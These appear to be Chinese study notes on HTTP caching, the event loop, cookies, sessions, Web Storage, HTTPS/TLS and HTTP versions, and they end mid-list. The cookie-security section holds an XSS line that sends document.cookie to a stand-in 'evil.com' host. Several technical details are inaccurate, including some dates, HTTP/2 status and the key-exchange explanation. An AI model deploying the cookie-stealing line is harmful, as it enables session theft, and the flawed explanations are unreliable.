



### 1 状态码: 304

> 回答304便是回答协商缓存
>
> `Last-Modified`与`ETag`同时命中的情况下才会命中弱缓存
>
> 强缓存未命中下， 走入到了协商缓存时候，且命中时给与的响应状态码。

　`if-modified-since (基于最后修改时间)`

#### response header的设置

````js
etag: '5c123132',
last-modified: Mon, 24 Dec 2018 09:49:49 GMT 
````

1. 如app.js打包后变为 app.c20abbde.js，加个唯一hash，也是为了解决缓存问题，etag也是如此目的。
2. last-modified：文件的修改时间

#### 协商缓存的过程

1. 请求返回来 response header 中的 etag和 last-modified

   - 响应头部

     Last-Modified: Fri, 17 Mar 2017 09:42:02 GMT

2. 下次请求时在 request header 就把这两个带上，服务端把你带过来的标识进行对比。

   - 浏览器请求头

     If-Modified-Since: Fri, 17 Mar 2017 09:42:02 GMT

3. 如果更改就直接返回新的资源，和更新对应的response header的标识etag、last-modified

4. 如果资源没有变，那就不变etag、last-modified

此时需要判断返回的是304还是200

- 虽然在返回 304 的时候已经做了一次数据库查询，但是可以避免接下来更多的数据库查询，并且没有返回页面内容而只是一个 HTTP Header

#### Etag

http 1.1 提出了Etag

每个文件都有一个单独的标志，只要这个文件发生了改变，这个标志就会发生变化。

- 如果请求报文的ETag与服务器的不一致，则表示该资源已经被修改过来，需要发最新的内容给浏览器。
- `ETag`也是`首次请求`的时候，服务器返回的:
- `If-None-Match`也是浏览器发送到服务器验证，文件是否改变的:

> Etag的目的:  
>
> 故 last-modified 似乎看起来已经够了！但这些特别情况就是需要etag来处理了来控制缓存。
>
> 1. 一些文件也许内容并不改变(仅仅改变的修改时间)，这个时候我们不希望文件重新加载.
>
>    （Etag值会触发缓存，Last-Modified不会触发）。故我们不修改etag的。
>
> 2. 当修改非常频繁时，Last-Modified无法判断，，重新加载.比方说1s内修改了N次
>
>    此时 Etag更加准确。
>
> 3. 某些服务器不能精确的得到文件的最后修改时间

#### 总体缓存流程

> 发请求-->看资源是否过期-->
>
> 过期-->请求服务器-->服务器对比资源是否真的过期-->过期-->返回200状态码
>
> -->  客户端如第一次接收该资源一样，记下它的cache-control中的max-age、etag、last-modified等。

1. 强缓存

   浏览器请求资源时首先命中资源的Expires 和 Cache-Control，

   Expires 受限于本地时间，如果修改了本地时间，可能会造成缓存失效，毕竟是本地时间。

   可以通过Cache-control: max-age指定最大生命周期（是倒计时），状态仍然返回200，但不会请求数据，在浏览器中能明显看到from cache字样。

2. 协商缓存  Etag 与 If-None-Match 

   强缓存失效进入协商缓存阶段，

   - 首先验证ETagETag可以保证每一个资源是唯一的，资源变化都会导致ETag变化。(当你**第一次**发起HTTP请求时，**服务器**会返回一个**Etag**，)

   - 服务器根据客户端上送的 `If-None-Match` 值来判断是否命中协商缓存。(**第二次**发起**同一个请求**时，客户端会**同时**发送一个**If-None-Match**，而它的值就是**Etag**的值)

3. last modify 与 if-modify-since

   协商缓存    Last-Modify/If-Modify-Since阶段，

   客户端第一次请求资源时，服务服返回的header中会加上Last-Modify，Last-modify是一个时间标识该资源的最后修改时间。再次请求该资源时，request的请求头中会包含If-Modify-Since，该值为缓存之前返回的Last-Modify。服务器收到If-Modify-Since后，根据资源的最后修改时间判断是否命中缓存。



### 2 宏任务&微任务&事件循环

- 宏任务  macrotask

  发起者： 宿主（Node、浏览器）

  1. script 整个代码块

  2. setTimeout、setInterval、setImmediate 

  3. UI rendering / UI事件交互事件、requestAnimationFrame (浏览器)

  4. postMessage / MessageChannel 新的语法

     对于两个不同页面的脚本的通信解决的一种解决语法。

  5. I/O 

- **microtask**

  1. Promise的then / catch等回调	

  2. MutaionObserver 

     使用MutationObserver监控某个DOM节点，再通过JavaScript来修改这个节点

  3. process.nextTick（Node.js）

  4. Proxy ？ 我不确定？我无法验证这件事 也没有找到文章。

### 3 关于浏览器缓存资源

当你介绍完强缓存、协商缓存以后，或许你可以介绍prload、prefetch与 Service Worker

- 强制缓存

  通俗来讲： 客户端自给自足用的。给资源设置过期时间，一旦过期才去询问服务器。

  1. 【服务器】在第一次请求资源时在 http 响应头设置一个过期时间，在时效内都将直接从浏览器进行获取，常见的 http 响应头字段如 Cache-Control 和 Expires。
  2. 但显然这有致命的缺点，会导致服务器的更新后资源与浏览器不同步的问题。

- 协商缓存

  是我们通过 http 响应头字段 etag 或者 Last-Modified 等判断服务器上资源是否修改，如果修改则从服务器重新获取，如果未修改则 304 指向浏览器缓存中进行获取

> 一旦更新资源 etag就会更新

#### 1 强缓存

- 浏览器根据 response Headers (响应首部)字段决定是否缓存资源。故是服务器端对文件进行的缓存配置。

  1. Cache-Control

     ```js
     Cache-Control: private/public
     Cache-Control: max-age=300
     Cache-Control: no-cache
     ```

     - `private` ：仅客户端缓存，代理服务器不缓存。

     - `public` ：该资源既能被浏览器缓存，也能被任何中间人（比如代理服务器、CDN 等）缓存。

     - `max-age` ：够被缓存的最大时间。`为0` 该资源仍然会被浏览器缓存，只不过立刻就过期了。

     - `no-cache` ：
1. 不进行强缓存
     
2. 代理服务器不进行缓存
  
 - `cache-control: no-store`
     不缓存，这个会让客户端、服务器都不缓存，也就没有所谓的强缓存、协商缓存了。
  
   ⭐ 所以它的真配得上 【缓存控制】这个名字！它真的可以控制两种缓存类型。

2. Expries => http1.0时代的缓存 

   - 由于使用具体时间，如果时间表示出错或者没有转换到正确的时区都可能造成缓存生命周期出错。

     - 客户端时间会和服务器时间不一致的情况， 故 【cache-control】出现了！

     也可以通过此参数来控制缓存

     `Expires` 标识了缓存的`具体过期时间`，来控制资源何时过期

     ```typescript
     Expires: Fri, 08 Mar 2029 08:05:59 GMT
     Expires: 0 // Expires: 0 仍然会启用缓存，只不过缓存立刻过期。
     ```

  3. 当你同时设置这两个强缓存标时

   - Cache-Control: max-age=600

   - Expires: 0

   Cache-Control 的优先级高于 Expires， 显然应该如此。

#### 3 浏览器的默认的协商缓存

响应首部:  cache-control 与 expries， 浏览器也会具有协商缓存。

- 为什么浏览器会默认有【协商缓存】=> 必然会发起请求，必然是顺手之劳。

- Response Header 中有 Last-Modified 但是没有 Cache-Control 和 Expires 时，

  浏览器会用一套自己的算法来决定这个资源会被缓存多长时间，这便是协商缓存。

  协商在于【浏览器】与【服务器】进行协商。

#### 4 http缓存

http缓存即 web缓存，即 http这种数据交换协议所产生的缓存。

以 `billbill`网站为例，便可看到其存在三种不同的size。 这便是缓存位置的不同。


1. Service Worker: 浏览器缓存资源的一个网络代理

   代理服务器是 备份源服务器的资源作为缓存，分担服务器。

2. Memory Cache: 内存缓存

3. Disk Cache : 硬盘缓存

4. Push Cache： 只在会话（Session）中存在， chrome仅存在5分钟

若以上依次都没有命中，则发起`网络请求`

#### 5 ⭐ 缓存分类

> 普通刷新会启用协商缓存，忽略强缓存 => 因为刷新必然会走请求，故会跳过本地文件。
>
> 只有在地址栏或收藏夹输入网址、通过链接引用资源等情况下，浏览器才会启用强缓存

1. 强缓存    （也称本地缓存）

   ⭐ 给资源设置个过期时间，客户端每次请求资源时都会看是否过期；只有在过期才会去询问服务器。

   - 强缓存是利用Expires或者Cache-Control，让原始服务器为文件设置一个过期时间，在多长时间内可以将这些内容视为最新的。

   - 若时间未过期，则命中强缓存，使用缓存文件不发送请求。

2. 协商缓存（也称弱缓存）

   ⭐ 协商缓存就是需要客户端和服务器两端进行交互的

> 浏览器缓存机制

1. 会先去缓存里面查看是否命中强缓存，如果命中，则直接从缓存中读取资源，不会发送请求到服务器

   或者 `如果强缓存时间过期， 当然也是属于未命中`

2. 当强缓存没有命中时，浏览器一定会向服务器发起请求。

   - 服务器会根据 Request Header 中的一些字段来判断是否命中协商缓存。

   - 如果命中协商缓存，服务器会返回响应，但是不会携带任何响应实体，只是告诉浏览器可以直接从缓存中获取这个资源。

   - 否则，进入下一步。

3. 如果前两步都没有命中，则直接从服务器加载资源

#### 6 关闭强，关闭强弱

1. cache-control: no-cache

   跳过设置强缓存，但是不妨碍设置协商缓存；

   一般如果你做了强缓存，只有在强缓存失效了才走协商缓存的，设置了no-cache就不会走强缓存了，每次请求都回询问服务端。

   - no-cache，浏览器和缓存服务器都不应该缓存页面信息； 

2. cache-control: no-store

   不缓存，这个会让客户端、代理服务器都不缓存，也就没有所谓的强缓存、协商缓存了

   - no-store，请求和响应的信息都不应该被存储在磁盘系统中；

### 4 浏览器缓存数据 【会话跟踪技术】

> 1.  cookie
> 2.  **session**
> 3.  **localStorage**
>
> > Cookie通过在客户端记录信息确定用户身份，Session通过在服务器端记录信息确定用户身份。

- cookie、localStorage、sessionStorage既然是同源策略，为什么不安全呢？

  - 你可以设置httponly，即无法通过js读写.

  - 验证码 => 需要验证两个 cookie，一个验证的是用户名，一个验证的是随机数，由于是随机数

    故大大提高了难度

  - 利用加密方式防止明文值被破解

  - **强制要求开启HTTPS连接**

    服务器传送cookie时设置属性secure为true,表示创建的cookie只能在HTTPS连接中被浏览器传递到服务器端进行会话验证

  - 

  1. `xss攻击,` 盗取cookie的数据！获取私有用户的信息。 合肥项目的cookie开发环境的cookie的设置！

     ````js
     new Image().src=”http://www.evil.com?”+escape(document.cookie)
     ````

     即便secure开启且https => 你可以覆盖cookie的方法,对google进行了攻击

     ```js
     document.cookie=”user=admin;domain=’.test.com’;path=’/aaa’;secure;httponly”
     ```

  2. 

#### 1 cookie

- 为什么要有cookie

  1. 在下一个请求发送时，服务器无法确定这次请求和上次的请求是否来自同一个客

     户端。`如何让服务器知道不同的请求是否来自同一个客户端`

     HTTP是一种无状态的协议： 无状态是指Web浏览器与Web服务器之间不需要建立持久的连接。

     ​	虽然你可以设置为持久连接，但是一段时间以后服务器也是可以断开。不管怎么样，你始终保持着客户端无相关信息的状态。

     ⭐

     - 在服务器端不保留连接的有关信息， 故你不能通过服务器端发送信息给客户端
     - 客户端保存用户状态即使用cookie，这样就变成了有状态的请求。

  2. cookies就是http的一个扩展

     有两个http头部是专门负责设置以及发送cookie的,它们分别是`Set-Cookie`以及`Cookie`

     第一次请求无cookie， 而第一次的响应会有 set-cookie。

     第二次请求 + cookie

     - Set-Cookie

       ⭐ 响应的Response Header中的Set-Cookie就是告诉浏览器为当前页面设置cookie。

       1. 客户端建立一个cookie，并且在后续的http请求中自动发送这个cookie到服务器端，直到这个cookie过期。

       2. 如果cookie的生存时间是整个会话期间的话，那么浏览器会将cookie保存在内存中，浏览器关闭时就会自动清除这个cookie

     - Cookie

       保存在客户端， 浏览器关闭的话，该cookie也不会被清除。下次打开浏览器访问对应网站时，这个cookie就会自动再次发送到服务器端。这便是常做的登录缓存。

- cookie的特点

  1. cookie也可以是一个会话！ 

     不设置过期时间，cookie被保存在`内存`中，生命周期`随浏览器的关闭`而`结束`

     除非你`设置`了cookie的过期时间, 

     cookie被保存在`硬盘`中，关闭浏览器后，cookie数据仍然存在，`直到过期时间结束`才消失

  2. cookie每次都会去发送。

     `每次网络请求` Request headers 中都会带上cookie, 故cookie 太多太大会消耗带宽

     一般`浏览器存储cookie` 最大容量为4k，所以大量数据不要存到cookie

     cookie只能保存`字符串`类型，以文本的方式

  3. 保存在客户端上。

- 场景：用于记录不敏感信息

  1. 用户是否登陆过网站,
  2. 保存上次查看的页面、浏览计数这类信息

- cookie

  1. 客户端发送一个http请求到服务器端
  2. 服务器端发送一个http相应到客户端，响应头包含Set-Cookie头部
  3. 客户端发送一个http请求到服务器端，请求头包含Cookie头部
  4. 服务器端发送一个http响应到客户端

#### 2  session

> session 是如何诞生的?
>
> > Session是服务器端使用的一种记录客户端状态的机制，使用上比Cookie简单一些，相应的也增加了服务器的存储压力。
>
> - cookie的致命性缺点:
>   1. cookie 是存在客户户端，而且它本身存储的尺寸大小也有限,但这不致命
>   2. `致命的缺点`: 用户可以是可见的，并可以随意的修改，很不安全. cookie存储于客户端

- session的运行机制

  1. 用户第一次的登录 => 浏览器会将用户信息发送给服务器 
  2. 服务器创建SessionId， 响应内容（Cookie）中将该SessionId一并返回给浏览器， 
  3. 浏览将其以特定key值`存储于cookie `【如SessionId】
  4. 下一次服务器接收到请求信息cookie，便可获取Session，可根据SessionId获知用户的Session并返回给浏览器

- 应用场景

  1. 与cookie大同小异

- 特性：、

  1. session本质也是cookie， 其真正存储的地方cookie是位于服务器。

     只要关闭浏览器， 若弱cookie清空，其浏览器的sessionId会被清空， `但其服务器sessionId绝不会被清空！`

     - sessionId依赖cookie，但该Cookie为服务器自动生成的，它的maxAge属性一般为–1，

       表示仅当前浏览器内有效。其真正存储的地方cookie是位于服务器。

     - 如果客户端浏览器将Cookie功能禁用， session也会失效

  2. 这类子窗口会共享父窗口的Cookie，因此会共享一个Session

  3. sessionId即便是被盗用，但我们可以使用服务器端的cookie特性，选择对一段时间内登陆过的浏览器开启白名单可以避免此问题。

#### 3 WebStorage

> 即便是 session也无非是借助了cookie, 将任务转移到了服务器端以保证安全性。
>
> 有没有更好的的方案？
>
> 但其实 cookie还是不可获取的，因为我们确实要与服务器端进行交互
>
> Web Storage仅仅是为了在本地“存储”数据而生。

- WebStorage目标
  1. 摆脱cookie
  2. 希望数据量更大
  3. 跨会话

- 共性:

  1. 不与服务器通信。
  2. 可以存储5MB
  3. 字符串类型， 故建议是json字符串

- `改革之处`

1. 不再需要向服务器发送cookie了！不仅更加安全而且更快速了！
  2. 解决了cookie存储空间不足的问题


#### 3.1 localStorage

1. `除非主动删除`。 否则即便是关闭了页面、关闭了浏览器也不销毁。

   遵循同源

2. 场景: 

   常用于长期登录（判断用户是否已登录），适合长期保存在本地的数据 

#### 3.2 sessionStorage

1. 当前会话！

   sessionStorage是不可以非同源跨标签访问的！除非其是同源， 故很适合SPA页面开发.

   `在关闭窗口或`标签页`之后将会删除这些数据。

   而传统的 cookie是目标是当前浏览器进程！

2. 应用场景:

   敏感账号一次性登录；

#### 3.3 token

> 根本原因： 每一台服务器都要保存所有的人的sessionId， 这不利于服务器的拓展与维护。
>
> 人数少倒不计较，人数量一旦增多，岂不是每一次的session联络表都需要重新部署。

- session看起来很完美了，但是负载问题无法解决。由于sessionId是临时生成的，就必然造成各个服务器都需要分享sessionId

- token相当于明文 + 密钥签名。用户第一次登录成功，我们给与token！

  服务器获取后再解密。我们以解密形式替代session。JWT

  token存储在客户端那里，服务器端仅是解密！解密以后获取数据。

### 5 https

https://juejin.cn/post/6844904038509576199#heading-5

https://www.bilibili.com/video/BV1XL411b7KZ?p=1 一个视频

什么叫https?

http: HyperText Transfer Protocol 超文本传输协议

https并不是一个单纯的协议。

`S` Secure Socket Layer => 即 SSL

- https 是如此的 HTTP => SSL => TCP
- SSL/TLS 协议的运行机制   借助数字证书实现了“混合加密（公钥加密法”

#### 01 | 为什么要有https？

请求与响应的报文都是明文。

#### 02 |  SSL / TLS  (TLS)

重申： SSL证书 与 SSL协议，是两个概念。

SSL是TLS的前身。一般都使用TLS，一般也都混用【SSL/TLS】,但它代表的是 【TLS】。

（1） 所有信息都是**加密传播**，第三方无法窃听。 => 窃听

（2） 具有**校验机制**，一旦被篡改，通信双方会立刻发现。 => 篡改风险

（3） 配备**身份证书**，防止身份被冒充。 => 冒充、否认

SSL/TLS协议的基本思路是采用[公钥加密法](https://en.wikipedia.org/wiki/Public-key_cryptography)，

`HTTPS` 做的事情其实就是在【传输层跟应用层】之间加了一层 `SSL/TLS`，用于对 `TCP` 传输内容的加密和解密。即【表示层】

**（1）如何保证公钥不被篡改？**

> 解决方法：将公钥放在[数字证书](https://en.wikipedia.org/wiki/Digital_certificate)中。只要证书是可信的，公钥就是可信的。

**（2）公钥加密计算量太大，如何减少耗用的时间？**

> 解决方法：每一次对话（session），客户端和服务器端都生成一个"对话密钥"（session key），用它来加密信息。由于"对话密钥"是对称加密，所以运算速度非常快，而服务器公钥只用于加密"对话密钥"本身，这样就减少了加密运算的消耗时间。

####  窃听、篡改与劫持

>  你也可以称呼为伪造



数字证书认证机构处于客户端与服务器双方都可信赖的第三方机构的立场上。

我现在用 保险箱 运货，你们还能撬开我保险箱放广告吗？

1. 窃听问题： 客户端与服务器之间`没有任何身份确认的过程`，且是明文。

   伪造： 伪造数据。

   否认： 我就不承认是我发的，你拿我怎么办？

   - 数字签名解决否认的问题
     - 解决否认的问题 => 签名只能由发送者创建， 接收者只需要验证正确即可。
     - 这便是数字签名，可以避免【否认问题】。

2. `域名劫持` => 目标域名会被恶意地错误解析到其他IP地址。

   ```js
   # 公共场合的wifi热点
   从2013年年底到2014年10月，陕西人付某和广东人黄某租赁多台服务器，使用恶意代码修改互联网用户路由器的DNS设置，进而使用户登“2345.com”等导航网站时，跳转至其设置的“5w.com”导航网站。最终，法院以破坏计算机信息系统罪判处两名被告人有期徒刑三年，缓刑三年。 
   ```

   其次，不使用https， 你的网费不足，ISP也可以给你网费不足的提示。 

3. `数据劫持` =>对于返回的内容会在其中强行插入弹窗或嵌入式广告等其他内容

   运营商中间的路由器解析（或者反代）服务器发给你的页面，向其中插入广告代码。

   ````js
   										 比如你访问的网站突然有一天右下角出现了小广告
   2015年圣诞节互联网大头声泪俱下控诉相关机构 数据劫持/流量劫持 => 淘宝网站 右下角是京东广告
   #  https的数据传输是加密的，中间的路由器无法解码。
   ````

#### TLS - 混合加密

> ⭐ 而TLS使用的便是 混合加密
>
> ⭐  混合加密其实已经解决了 窃听、伪造、否认。但不能解决劫持问题（对方是否是我的目标对象）
>
> - 混合加密机制还是存在一些问题 => 无法证明第一阶段派发的公钥 是货真价实的公钥

`使用加密`    对称加密+非对称加密

1. 对称加密 （同样的加密规则）

   - 加密和解密同用一个密钥, 即**任何人只要持有密钥就能解密了**
   - 以对称加密方式加密时必须将密钥也发给对方。

   第三方知道加密规则便被破解。故不安全。

2. 非对称加密  

   1. 公钥加密【公钥公开】（服务器向外告知的公钥），
   2. 私钥解密【私钥保留】(一般私钥仅在服务器中⭐ 公私钥是成对关系）

   公开密钥加密使用一对非对称的密钥。一把叫做私有密钥，另一把叫做公开密钥

   发送密文的一方使用**公开密钥**进行加密处理，对方收到被加密信息后，再使用自己的私有密钥进行解密。

   - 缺点： 解密效率问题！

   举例：

   小青： 有私钥【青色】、公钥【黄色】，  

   小红： 有私钥【红色】、公钥【黄色】，

   1. 小青 用【黄色公钥】加密【青色私钥】，得到【绿色】给 小红

      小红 用【黄色公钥】加密【红色私钥】，得到【橙色】给小青

   2. 小青用 自己的【青色私钥】+ 对方的【橙色】获得了【便便色密钥】

      小红用 自己的【红色私钥】+ 对方的【绿色】获得了【便便色密钥】

      ⭐ 现在他们都有了密钥，而这个密钥是只能用自己的私钥解密的。

3. 对称加密+非对称加密

   - 第一步：非对称加密： 将【密钥】用公钥加密产生密钥密文，对方用私钥解密获取密钥
     - 攻击者无私钥， 无法解密【密钥】以获取【私钥】
   - 第二步： 使用对称加密传输。
     - 使用非对称加密密钥，即使发生泄漏，也因没有私钥无法破解出密钥，所以保证了密钥传输过程中的安全性。密钥安全，日后的信息传输也相当安全

4. 混合密钥存在的问题 

   - 秘密替换公钥窃取数据的方法被称为“中间人攻击”

   如果第一步创建的公钥便是被人劫持，中间站自身准备了公钥与私钥。

   不过这种的手段看起来要十分且非常的高超才可以做到吧！

   1. A 使用【伪造公钥】进行加密， 发起请求
   2. 中间者劫取， 使用  【伪造私钥】进行解密。 获得请求数据。再用自己的【伪造公钥】加密变为【伪造私钥】
   3. 服务器返回响应数据。 中间者截取，使用自己【公钥】直接可以解密，获取响应数据。

   

   

#### SSL - 数字证书

> 为了解决 TLS存在无法解决劫持问题。故需要SSL证书！
>
> - SSL证书即保存在源服务器的数据文件
> - 更重要的是这个证书还包括特定的【公钥】与私钥 

1. 服务器的运营人员向第三方机构----数字证书认证机构（Certificate Authority）申请数字证书才可生效。
2. CA给与服务器方
   - 申请者公钥
   - 数字签名的密文
   - 证书信息

#### TLS握手过程

其便是结合 【SSL证书】进行握手，SSL证书的【公钥+私钥】

> 非对称 + 对称

1. Client发送 Hello （TLS版本、加密套件、第一随机数）

2. Serve发送 Hello （TLS版本、加密套件、第二随机数）

   ⭐ 这两个随机数是公开的！

3. 服务器端继续发送 【Certificates】-证书给客户端， 客户端通过CA验证数字证书

4. 继续发送【公钥】发送给客户端， 客户端通过【私钥解密】从此生成第三个随机数，即【预主密钥】

   ⭐ 第一、第二、公钥都可以被窃取，但是公钥被窃取以后，还是无法解密以获取【预主密钥】。

   此时 客户端 有【公钥】【第一】【第二】【预主】

5. Serve Hello Done

6. ⭐ 【客户端】使用【公钥】加密了【预主密钥】发送出去！

   服务器端使用私钥解密此，获取【预主密钥】。

    现在我们各自都知道各自的【预主密钥】！

7. 第一 + 第二 + 预主密钥 获取【会话密钥】。客户端与服务器端都是相同的！

   从此以后就使用【会话密钥】这种对称加密， 作为【私钥】来加密与解密

----

> 此外这还有另一个版本，但我觉得上面那个版本更好！更清楚！

SSL的认证 + TCP 的三次握手。

1. **ClientHello**

   服务器端有私钥与公钥。第一次握手， 客户端发送请求https  与【随机数1】。

2. **-SeverHello**

   服务器返回【证书文件、公钥】、【随机数2】.数字证书的存在保证公钥不被篡改、证书内有公钥

3. **客户端握手结束通知** 

   客户端通过CA验证数字证书， 若不对则向受访者显示警告，并询问是否继续访问。

   并向服务器发送 【随机数3】 ，**此随机数使用证书里的公钥进行加密！**

4. **服务器端握手结束**

   服务器收到客户端第三个进行公钥加密的随机参数，并使用私钥进行解密获取其。

   此时有了三个随机数， 并以此生成会话密钥

   并发送给客户端【握手结束通知】。握手结束。

至此，整个握手阶段全部结束。接下来，客户端与服务器进入加密通信，就完全是使用普通的HTTP协议，只不过用"会话密钥"加密内容。

1. https只是做了加密。 

   - 数字证书避免了 中间人的劫持 => 数据劫持、DNS劫持【大部分程度下】

     保证公钥不被篡改，因为代理商服务器可能不做人。

   - 混合加密 避免了数据的窃听， 保证数据不被解密。

   - 避免【伪造】【否认】 依旧是需要【数字签名】来解决的。

     若是中间人不做人直接对信息进行修改的话。

2. https可以防止dns劫持。因为劫持者没有CA对其域名进行签名的数据。

   但架不住用户如此如此，

   1. 客户单安装的 伪造的 CA 证书，然后被代理服务器劫持。

   2. 没有认证的证书，客户端选择信任。
      1. 不过恶意的让你无法访问的问题依旧是存在的！

#### https 总结

> 是整个握手阶段出现的三个随机数，双方用事先商定的加密方法，各自生成本次会话所用的同一把"会话密钥"
>
> 由于SSL协议中证书是静态的，因此十分有必要引入一种随机因素来保证协商出来的密钥的随机性。
>
> 参考1： https://juejin.cn/post/6844903764399243278 掘金图解
>
> 参考2： http://www.ruanyifeng.com/blog/2014/02/ssl_tls.html

⭐ 此时也是**握手三次握手**阶段。此时SSL/TLS协议运行机制的概述。

#### http区别、https更慢

- https 建立于 SSL加密通道【加密数据】， http是明文传输

  HTTPS 相比 HTTP 多了证书交换和加密的过程

- HTTPS需要用到SSL证书，而HTTP不用;

其次 https被认为性能慢于 http

1. 性能消耗要大于HTTP, 因为并非是纯文本传输数据，**加密通信会消耗更多的CPU及内存资源**	
2. 不过当下越多的优化已经可以忽略他们了

### 6 http1.x与http2.0

文档-1:    https://segmentfault.com/a/1190000015316332

文档-2： https://segmentfault.com/a/1190000012975173?utm_source=sf-similar-article

> 历史的进程已然走到了今天，不知道未来又如何？
>
> 1. 1987年发布http协议1.0版本
>
> 2. 1997年发布http1.1协议 => tcp的复用方案 => 即熟知的 connection: keep-alive特性
>
> 3. 伴随移动端的 的越来越普及，图片与视频的加载越来越多，故 google提出 spdy协议。
>
>    http2即基于spdy协议，目前仍在提案。同期，quic协议提出，基于udp模拟tcp的面向连接。

#### 0 http

1. http是一种协议，http就是一个p（protocol）。

2. http有请求报文与响应报文。

   请求报文

   - 请求行

     起始行： 请求方法 + 请求的URL + 协议的版本号（http的版本号）

   - 请求头部  （请求首部）（消息头部）

     请求头部通知服务器有关于客户端请求的信息

     这里具体是指的是【请求首部】

     1. ***\*Accept\**** 客户端接受什么类型的响应
     2. Cookie： 客户端的Cookie就是通过这个报文头属性传给服务端的哦
     3. **Referer**： 从哪个URL过来的
     4. **Cache-Control**： 缓存信息

   - 请求体

     

   响应报文：

   - 响应行（状态行）

     1. 服务器http版本号
     2. 服务器状态码、状态码表述

   - HTTP首部（响应头）

     响应报文首部提供的额外信息

     1. **Cache-Control** 
     2. **ETag** 
     3. **Set-Cookie** ： 客户端请求服务器，如果服务器需要记录该用户状态，就使用response向客户端浏览器颁发一个Cookie。客户端浏览器会把Cookie保存起来。
     4. **Location** **重定向接收者到一个新URI地址**

   - 响应体。

3. 状态码

   2XX 【成功】

   3XX 【重定向】

   4XX【客户端错误】

   5XX【服务器错误】

4. 首部响应

   - content-type 可令浏览器明白如何去处理数据

5. 应用层 - 传输层 - 网际层-网络接口层

   应用层 即 http协议， 您输入 www.billl.bill的网站便是走 应用层的协议请求资源。协议端口号为 80

   HTTP在 TCP基础之上实现，涉及三次握手，四次挥手。TCP不持久化，但HTTP可持久化

6. cookie也是http发展的拓展

#### 1 http的限制

- **特点**：线程阻塞，在同一时间，同一域名的请求有一定数量限制，超过限制数目的请求会被`阻塞`
- 这更像是安全机制： `并发限制`
- 所以真的存在大量的图片， 建议使用两个域名来分别处理。

#### 2 http1.0

- 浏览器与服务器只保持短暂的连接，浏览器的每次请求都需要与服务器建立一个TCP连接

  服务器完成请求处理后立即断开TCP连接，服务器不跟踪每个客户也不记录过去的请求；

  而问题在于 tcp 需要三次 客户端与服务器端的握手才可以，其每次tcp连接的成本很高

- 解决： 添加 `Connction:  keep-alive`

#### 3 http1.1

是改进版本

1. **持久连接**

   - 即默认的Tcp连接便不关闭，且可复用。

     在1.1之后Connection的默认值就是Keep-Alive

2. 管道机制

   1. 在http1.0的时候，只有前一个请求的响应收到了，然后才能发送下一个请求。

      不等第一次请求回来，我就开始发第二次请求呢？ 这便是管道机制的意义！

      即： 你现在有了一种选择，可以将多个HTTP请求放到一个TCP连接中, 不再需要等待下一个请求的响应了！

   2. 但客户端还是要按照发送请求的顺序来接收响应。

   即便是通过管道同时发送了多个请求，服务端也是按请求的顺序依次给出响应的。

   - 故 管道会导致堵塞的问题（而客户端在未收到之前所发出所有请求的响应之前）即【线头阻塞】
   - http2对其进行优化。

   3. 不过 大部分桌面浏览器仍然会选择默认关闭HTTP pipelining。

      1. 队头阻塞

      2. 只有GET和HEAD请求才能管道化。

         客户端需要把未收到响应的请求重发。非幂等请求，会`造成资源破坏`

      故 http2中的多路复用 可以解决这个问题！

3. 分块传输编码（chunk编码）

   通常HTTP应答消息中发送的数据是整个发送的

   1. 分块传输编码允许服务器在最后发送【消息头】字段。

      对于那些头字段值在内容被生成之前无法知道的情形非常重要。

      - 例如消息的内容要使用散列进行签名，散列的结果通过HTTP消息头字段进行传输。没有分块传输编码时，服务器必须缓冲内容直到完成后计算头字段的值并在发送内容前发送这些头字段的值。

   2. 分块传输编码能够用来分隔压缩对象的多个部分，分块编码有利于一边进行压缩一边发送数据

4. 更多的请求方式

   GET, POST 和 HEAD方式 => OPTIONS,、PUT、DELETE,、TRACE 和 CONNECT 方法

5. 缺点

   - 管道机制： 

     用TCP连接，但是同一个TCP连接里面，所有的数据通信是**按次序进行**的。

     `服务器只有处理完一个请求，才会接着处理下一个请求`

   - 解决方案

     减少请求数、或同时多开持久连接

#### 4 http2

⭐  在二进制分帧层上，HTTP2.0会将所有传输信息分割为更小的消息和帧，并对它们采用二进制格式的编码将其封装。

> 1. HTTP1.X中的首部信息header封装到Headers帧中，
> 2. request body将被封装到Data帧中。
>
> 而消息由一或多个帧组成，这些帧可以乱序发送，然后根据每个帧首部的流标识符重新组装。
>
> 1. HTTP/2 将请求和响应数据分割为更小的帧，并且它们采用二进制编码
> 2. HTTP 1.x 的文本格式

1. **完全多路复用**

   ⭐ 有了二进制分帧之后，就可以实现完全的多路复用。

   TTP1.X的版本中多想并发请求，则需要多个TCP连接。

   现在：客户端和浏览器都可以同时发送多个请求或回应， 而且不用按照顺序一一对应

   - 实现： 

